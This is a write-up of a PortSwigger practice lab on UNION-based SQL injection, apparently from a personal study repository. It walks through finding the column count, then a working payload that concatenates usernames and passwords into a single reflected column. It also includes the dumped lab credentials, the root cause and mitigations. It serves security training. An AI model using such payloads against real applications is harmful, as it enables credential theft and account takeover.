


# SQL injection UNION attack, retrieving multiple values in a single column

| Field | Value |
|---|---|
| **Difficulty** | Practitioner |
| **Category** | SQL Injection |
| **Lab URL** | `https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column` |

---

## Lab Objective

The product category filter is vulnerable to SQL injection and its results are reflected in the response. The database contains a separate `users` table with `username` and `password` columns. Retrieve both values when only **one** column can be used for the reflected output, then log in as `administrator`.

---

## Skills Learned

- Recognizing when a `UNION` has only one usable reflected column
- Packing two database columns into one output column with the `||` concatenation operator
- Using a separator character so combined values stay readable in the response
- Dumping credentials through a single-column result set

---

## Recon

The vulnerable parameter is `category`, tested through Burp Repeater:

```http
GET /filter?category=Food+%26+Drink
```

The value is concatenated into the backend SQL query without parameterization:

```sql
SELECT * FROM products WHERE category = 'Food & Drink' AND released = 1
```

As with the previous UNION labs, the query results are reflected in the page, so a `UNION SELECT` can inject my own rows.

---

## Finding the Vulnerability

1. **Injectability** — the `category` parameter is directly embedded in the SQL string, so a trailing `'` lets me alter the statement.
2. **Column count** — `ORDER BY 3` returned a **500 error**, so the original query returns **2 columns**:

```http
GET /filter?category=Food+%26+Drink' ORDER BY 3-- HTTP/2
```



3. **Text-compatible column** — probing which column accepts text showed that only the **second** position renders string output. With a two-column query, `NULL` has to sit in the first slot and everything I want back must go through the second column.

---

## Exploitation Steps

1. Confirmed the query returns 2 columns (`ORDER BY 3` failed).
2. Determined that only **one** column can reflect the data I need.
3. Built the `UNION` with `NULL` in the first column and the concatenation in the second:

```sql
' UNION SELECT NULL, username || '~' || password FROM users--
```

4. The response dumped every user as a single combined string:

```text
administrator~62inasda61tvuq
wiener~xsrqdbbicxdtrasoldtt
```

5. I split each pair at the `~` separator, took the `administrator` username and password, and logged in.
6. The application authenticated as the administrator account.

The lab became: **`Congratulations, you solved the lab!`**



---

## Payload

```sql
' UNION SELECT NULL, username || '~' || password FROM users--
```

URL-encoded form:

```http
GET /filter?category=Food+%26+Drink' UNION SELECT NULL, username||'~'||password FROM users-- HTTP/2
```

---

## Why It Works

- **Two columns on both sides** — the original query returns two columns, so the injected `SELECT` must match. `NULL` occupies the first column (a safe, type-agnostic placeholder).
- **`||` concatenation** — the second column is the only one useful for output, but I need both `username` **and** `password`. `||` joins the two values into a single string, so both pieces of data fit through that one column.
- **`'~'` separator** — the `~` between the values keeps them distinguishable in the response (a username like `admin~evil` could not be split cleanly). Any character not present in the data would work.
- **`FROM users`** — points the injected query at the target table.
- **`--`** — comments out the remainder of the original statement (the trailing `AND released = 1`), keeping the combined query valid.

---

## Root Cause

The `category` value is concatenated directly into the SQL string with no parameterization or input validation. This lets an attacker reshape the query with `UNION SELECT` and read from any table the DB account can reach — in this case the entire `users` table, even through a single reflected column.

---

## Impact

Single-column result sets don't stop a UNION-based read: concatenation collapses multiple sensitive values into one output row, so username/password pairs, hashes, or API keys can still be exfiltrated through just one reflected position. Dumping `administrator`'s password led to full account takeover.

---

## Mitigation

- Use parameterized queries / prepared statements so input never becomes executable SQL
- Validate/whitelist the `category` parameter
- Apply least-privilege database accounts; keep `users` tables unreachable to the app query account
- Never render raw DB results into HTML without encoding

---

## Key Takeaways

- A single reflected column is not a dead end — `||` (or `CONCAT` on MySQL/Microsoft) merges multiple fields into one string.
- Always use a separator that cannot appear in the data (e.g. `~`) so you can reliably split the combined output.
- Match the injected `SELECT`'s column count to the original query; `NULL` fills unused slots.

---

## Related Labs

- [10 - SQL injection UNION attack, retrieving data from other tables](../10%20-%20SQL%20injection%20UNION%20attack%2C%20retrieving%20data%20from%20other%20tables/README.md) — the same UNION dump goal, but both values must fit one column
- [09 - SQL injection UNION attack, finding a column containing text](../09%20-%20SQL%20injection%20UNION%20attack%2C%20finding%20a%20column%20containing%20text/README.md) — depends on identifying the text-capable column established there

---

## References

- [PortSwigger: SQL injection UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
- [PortSwigger: Retrieving multiple values within a single column](https://portswigger.net/web-security/sql-injection/union-attacks#retrieving-multiple-values-within-a-single-column)
- [OWASP: SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)